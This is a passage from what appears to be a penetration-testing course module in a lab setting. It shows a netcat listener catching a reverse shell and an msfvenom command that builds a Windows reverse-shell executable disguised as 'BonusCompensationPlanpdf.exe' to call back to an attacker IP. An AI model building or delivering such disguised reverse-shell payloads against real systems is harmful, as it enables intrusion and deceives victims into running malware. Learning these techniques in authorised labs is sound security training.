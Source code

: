 ```shell
sudo nc -lvnp 443

Listening on 0.0.0.0 443
Connection received on 10.129.138.85 60892
env
PWD=/home/htb-student/Downloads
cd ..
ls
Desktop
Documents
Downloads
Music
Pictures
Public
Templates
Videos

```

This same concept can be used to create payloads for various platforms, including Windows.

* * *

## Building a simple Stageless Payload for a Windows system

We can also use msfvenom to craft an executable ( `.exe`) file that can be run on a Windows system to provide a shell.

#### Windows Payload

```shell
msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f exe > BonusCompensationPlanpdf.exe

[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes

```

The command syntax can be broken down in the same way we did above. The only differences, of course, are the `platform` ( `Windows`) and format ( `.exe`) of the payload.

* * *

## Executing a Simple Stageless Payload On a Windows System

This is another situation where we need to be creative in getting this payload delivered to a target system. Without any `encoding` or `encryption`, the payload in this form would almost certainly be detected by Windows Defender AV.

